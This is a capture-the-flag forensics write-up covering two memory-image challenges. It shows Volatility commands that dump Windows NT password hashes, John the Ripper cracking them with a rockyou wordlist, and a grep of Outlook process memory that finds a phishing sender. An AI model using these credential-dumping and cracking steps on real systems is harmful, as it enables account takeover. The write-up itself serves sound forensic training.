When doing forensics on this type of file, a popular tool to use is volatility. (Which can be found here)
Let us first get some information about the system, i'll start with the plugin banners.Banners, which find linux related banners:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/memedium ] └─> $ vol -f mememachinememory.vmem banners.Banners Volatility 3 Framework 1.0.1 Progress: 100.00 PDB scanning finished Offset Banner
Not much to see here, so it probably runs Windows, but let's use the windows.info.Info plugin:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/memedium ] └─> $ vol -f mememachinememory.vmem windows.info.Info Volatility 3 Framework 1.0.1 Progress: 100.00 PDB scanning finished Variable Value Kernel Base 0x804d7000 DTB 0x334000 Symbols file:///usr/lib/python3.9/site-packages/volatility3/symbols/windows/ntkrnlpa.pdb/30B5FB31AE7E4ACAABA750AA241FF331-1.json.xz Is64Bit False IsPAE True primary 0 WindowsIntelPAE memory_layer 1 FileLayer KdDebuggerDataBlock 0x80545ae0 NTBuildLab 2600.xpsp.080413-2111 CSDVersion 3 KdVersionBlock 0x80545ab8 Major/Minor 15.2600 MachineType 332 KeNumberProcessors 1 SystemTime 2021-02-24 19:53:21 NtSystemRoot C:\WINDOWS NtProductType NtProductWinNt NtMajorVersion 5 NtMinorVersion 1 PE MajorOperatingSystemVersion 5 PE MinorOperatingSystemVersion 1 PE Machine 332 PE TimeDateStamp Sun Apr 13 18:31:06 2008
Bingo!
Now that I know the OS of the image, i'll dump the hashes using windows.hashdump.Hashdump:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/memedium ] └─> $ vol -f mememachinememory.vmem windows.hashdump.Hashdump 11:39 Volatility 3 Framework 1.0.1 Progress: 100.00 PDB scanning finished User rid lmhash nthash Administrator 500 cdf5e5fd95c14d936e9c218c1f22e251 31a5167ba5ce8351b0110a9d13636cd9 Guest 501 aad3b435b51404eeaad3b435b51404ee 31d6cfe0d16ae931b73c59d7e0c089c0 HelpAssistant 1000 2c111668e0c7fd616a8af0feb7e4fcc1 103cc84c0cbb0bada9eea387d6df8207 SUPPORT_388945a0 1002 aad3b435b51404eeaad3b435b51404ee 9546430bd8979312c16cb95d28bfc853
I then took these hashes, put them into a file and formatted it to match john format for cracking:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/memedium ] └─> $ cat hashes.txt 11:46 Administrator:31a5167ba5ce8351b0110a9d13636cd9 Guest:31d6cfe0d16ae931b73c59d7e0c089c0 HelpAssistant:103cc84c0cbb0bada9eea387d6df8207 SUPPORT_388945a0:9546430bd8979312c16cb95d28bfc853
Then I used john with the wordlist rockyou.txt, hoping that it would contain the right password:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/memedium ] └─> $ john --rules=all --wordlist=$REPOS/SecLists/Passwords/Leaked-Databases/rockyou.txt --format=NT hashes.txt -------------------------------------------------------------------------- The library attempted to open the following supporting CUDA libraries, but each of them failed. CUDA-aware support is disabled. libcuda.so.1: cannot open shared object file: No such file or directory libcuda.dylib: cannot open shared object file: No such file or directory /usr/lib64/libcuda.so.1: cannot open shared object file: No such file or directory /usr/lib64/libcuda.dylib: cannot open shared object file: No such file or directory If you are not interested in CUDA-aware support, then run with --mca opal_warn_on_missing_libcuda 0 to suppress this message. If you are interested in CUDA-aware support, then try setting LD_LIBRARY_PATH to the location of libcuda.so.1 to get passed this issue. -------------------------------------------------------------------------- Using default input encoding: UTF-8 Loaded 4 password hashes with no different salts (NT [MD4 128/128 AVX 4x3]) Remaining 3 password hashes with no different salts Warning: no OpenMP support for this hash type, consider --fork=12 Press 'q' or Ctrl-C to abort, almost any other key for status superman83 (Administrator) 1g 0:00:00:06 0.00% (ETA: 2021-11-14 18:59) 0.1623g/s 7142Kp/s 7142Kc/s 14348KC/s ohmmm..ohktrlw Use the "--show --format=NT" options to display all of the cracked passwords reliably Session aborted
And I got a hit on the password: superman83.
Meaning the flag is:
flag{superman83}
12 Mr. Robot and Friends forensics
In this challenge, I had to find the name of the person which sent a phising mail.
The challenge provided the file mrrobotandfriends.vmss, which is a VMware Suspended State file.
Which more or less means that it is a suspended virtual machine.
I started of the same way as memedium, with trying to identify the OS.
Altough I had some problems using volatility3 on this challenge, so I used volatility2 instead.
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/mrrobot ]
└─> $ vol.py -f mrrobotandfriends.vmss imageinfo 12:10
Volatility Foundation Volatility Framework 2.6.1
INFO : volatility.debug : Determining profile based on KDBG search...
Suggested Profile(s) : Win7SP1x86_23418, Win7SP0x86, Win7SP1x86_24000, Win7SP1x86
AS Layer1 : IA32PagedMemoryPae (Kernel AS)
AS Layer2 : VMWareAddressSpace (Unnamed AS)
AS Layer3 : FileAddressSpace (/home/c3lphie/hacking/ctf/pbjar21/mrrobot/mrrobotandfriends.vmss)
PAE type : PAE
DTB : 0x185000L
KDBG : 0x82765be8L
Number of Processors : 2
Image Type (Service Pack) : 0
KPCR for CPU 0 : 0x82766c00L
KPCR for CPU 1 : 0x807c5000L
KUSER_SHARED_DATA : 0xffdf0000L
Image date and time : 2015-10-09 12:53:02 UTC+0000
Image local date and time : 2015-10-09 08:53:02 -0400
Now that I know the profile, I'll list the processes running:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/mrrobot ] └─> $ vol.py -f mrrobotandfriends.vmss --profile=Win7SP1x86_23418 pslist 12:11 Volatility Foundation Volatility Framework 2.6.1 Offset(V) Name PID PPID Thds Hnds Sess Wow64 Start Exit ---------- -------------------- ------ ------ ------ -------- ------ ------ ------------------------------ ------------------------------ 0x83d334e8 System 4 0 94 500 ------ 0 2015-10-09 11:30:44 UTC+0000 0x84edcbf0 smss.exe 276 4 2 30 ------ 0 2015-10-09 11:30:44 UTC+0000 0x84ecbb18 csrss.exe 368 360 9 366 0 0 2015-10-09 11:30:47 UTC+0000 0x84f97628 wininit.exe 420 360 3 77 0 0 2015-10-09 11:30:48 UTC+0000 0x855f6d40 csrss.exe 432 412 11 366 1 0 2015-10-09 11:30:48 UTC+0000 0x8561d030 winlogon.exe 480 412 3 115 1 0 2015-10-09 11:30:48 UTC+0000 0x84e979f8 services.exe 528 420 9 200 0 0 2015-10-09 11:30:48 UTC+0000 0x8583b030 lsass.exe 536 420 9 851 0 0 2015-10-09 11:30:48 UTC+0000 0x8583d960 lsm.exe 544 420 10 163 0 0 2015-10-09 11:30:48 UTC+0000 0x8586fd40 svchost.exe 644 528 11 351 0 0 2015-10-09 11:30:48 UTC+0000 0x84e01448 svchost.exe 720 528 6 276 0 0 2015-10-09 11:30:50 UTC+0000 0x85935030 svchost.exe 796 528 19 446 0 0 2015-10-09 11:30:51 UTC+0000 0x85969030 svchost.exe 836 528 17 405 0 0 2015-10-09 11:30:52 UTC+0000 0x85978940 svchost.exe 864 528 30 1036 0 0 2015-10-09 11:30:52 UTC+0000 0x859cc2c0 svchost.exe 1008 528 13 650 0 0 2015-10-09 11:30:52 UTC+0000 0x85a138f0 svchost.exe 1124 528 16 484 0 0 2015-10-09 11:30:53 UTC+0000 0x8582c8d8 spoolsv.exe 1228 528 12 273 0 0 2015-10-09 11:30:53 UTC+0000 0x85a55d40 svchost.exe 1256 528 17 304 0 0 2015-10-09 11:30:53 UTC+0000 0x85ae3030 vmtoolsd.exe 1432 528 8 274 0 0 2015-10-09 11:30:54 UTC+0000 0x85976318 svchost.exe 1784 528 5 99 0 0 2015-10-09 11:30:54 UTC+0000 0x85ae0cb0 dllhost.exe 1888 528 13 196 0 0 2015-10-09 11:30:54 UTC+0000 0x858b69e8 msdtc.exe 1980 528 12 145 0 0 2015-10-09 11:30:55 UTC+0000 0x85c09968 dwm.exe 2088 836 3 93 1 0 2015-10-09 11:31:04 UTC+0000 0x85c1e5f8 explorer.exe 2116 2060 23 912 1 0 2015-10-09 11:31:04 UTC+0000 0x85c39030 taskhost.exe 2252 528 7 150 1 0 2015-10-09 11:31:04 UTC+0000 0x859281f0 vmtoolsd.exe 2388 2116 7 164 1 0 2015-10-09 11:31:04 UTC+0000 0x8598c920 SearchIndexer. 2544 528 13 670 0 0 2015-10-09 11:31:10 UTC+0000 0x85d0d030 iexplore.exe 2996 2984 6 463 1 0 2015-10-09 11:31:27 UTC+0000 0x85cd3d40 OUTLOOK.EXE 3196 2116 22 1678 1 0 2015-10-09 11:31:32 UTC+0000 0x85d01510 svchost.exe 3232 528 9 131 0 0 2015-10-09 11:31:34 UTC+0000 0x85b43a58 sppsvc.exe 3900 528 4 153 0 0 2015-10-09 11:32:54 UTC+0000 0x83eb5d40 cmd.exe 2496 2116 1 22 1 0 2015-10-09 11:33:42 UTC+0000 0x83e5cd40 conhost.exe 916 432 3 83 1 0 2015-10-09 11:33:42 UTC+0000 0x83f105f0 cmd.exe 1856 2996 1 33 1 0 2015-10-09 11:35:15 UTC+0000 0x83f13d40 conhost.exe 1624 432 3 81 1 0 2015-10-09 11:35:15 UTC+0000 0x83fb86a8 cmd.exe 3064 2116 1 22 1 0 2015-10-09 11:37:32 UTC+0000 0x83fa9030 conhost.exe 676 432 3 83 1 0 2015-10-09 11:37:32 UTC+0000 0x83fb2d40 cmd.exe 3784 2196 1 24 1 0 2015-10-09 11:39:22 UTC+0000 0x83fc7c08 conhost.exe 1824 432 3 85 1 0 2015-10-09 11:39:22 UTC+0000 0x84013598 TeamViewer.exe 2680 1696 28 632 1 0 2015-10-09 12:08:46 UTC+0000 0x84017d40 tv_w32.exe 4064 2680 2 83 1 0 2015-10-09 12:08:47 UTC+0000 0x858bc278 TeamViewer_Des 1092 2680 16 405 1 0 2015-10-09 12:10:56 UTC+0000 0x83f1ed40 mstsc.exe 2844 2116 11 484 1 0 2015-10-09 12:12:03 UTC+0000
Since we want the email of the attacker, a good bet would be to look at the memory of the outlook process.
This can be dumped using the memdump plugin, with the PID of the outlook process.
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/mrrobot ] └─> $ vol.py -f mrrobotandfriends.vmss --profile=Win7SP1x86_23418 memdump -p 3196 -D . 12:21 Volatility Foundation Volatility Framework 2.6.1 ************************************************************************ Writing OUTLOOK.EXE [ 3196] to 3196.dmp
Now we can use strings in a combination with grep to search for what we want:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/mrrobot ]
└─> $ strings 3196.dmp | grep -E "([a-zA-Z0-9_]\w+)@([a-zA-Z0-9_]\w+)\.([a-zA-Z0-9_]\w+)" | grep -v "allsafecybersec"
SMTP:TH3WH1T3R0S3@GMAIL.COM
SMTP:TH3WH1T3R0S3@GMAIL.COM
SMTP:TH3WH1T3R0S3@GMAIL.COM
SMTP:TH3WH1T3R0S3@GMAIL.COM
Message-ID: <CALwgF5bo54VoNzmLrOs4R500JQ-zifiDB=UxCyiEZTisogfmCQ@mail.gmail.com>
From: The Whit3R0s3 <th3wh1t3r0s3@gmail.com>
Return-Path: th3wh1t3r0s3@gmail.com
https://www.verisign.com; by E-mail at CPS-requests@verisign.com; or
https://www.verisign.com; by E-mail at CPS-requests@verisign.com; or
https://www.verisign.com; by E-mail at CPS-requests@verisign.com; or
GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz
##?#ACPI#GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz#_4#{97fadb10-4e33-40ae-359c-8bef029dbdd0}
##?#ACPI#GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz#_1#{97fadb10-4e33-40ae-359c-8bef029dbdd0}
##?#ACPI#GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz#_2#{97fadb10-4e33-40ae-359c-8bef029dbdd0}
##?#ACPI#GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz#_3#{97fadb10-4e33-40ae-359c-8bef029dbdd0}
##?#ACPI#GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz#_3#{97fadb10-4e33-40ae-359c-8bef029dbdd0}
##?#ACPI#GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz#_4#{97fadb10-4e33-40ae-359c-8bef029dbdd0}
##?#ACPI#GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz#_1#{97fadb10-4e33-40ae-359c-8bef029dbdd0}
##?#ACPI#GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz#_2#{97fadb10-4e33-40ae-359c-8bef029dbdd0}
GenuineIntel_-_x86_Family_6_Model_15_-_Intel(R)_Xeon(R)_CPU___________X3220__@_2.40GHz
https://www.verisign.com; by E-mail at CPS-requests@verisign.com; or
https://www.verisign.com; by E-mail at CPS-requests@verisign.com; or
it@sendmail.dll,-21
WCE v1.42beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
FRONTDESK@ALLSAFECYBERSEC.LOCAL_AD
nd@netcenter.dll,-1pad.exe
On line 6 we can see the name of the attacker, which coincidentally also is the flag(with space replace by "_"):
flag{The_Whit3R0s3}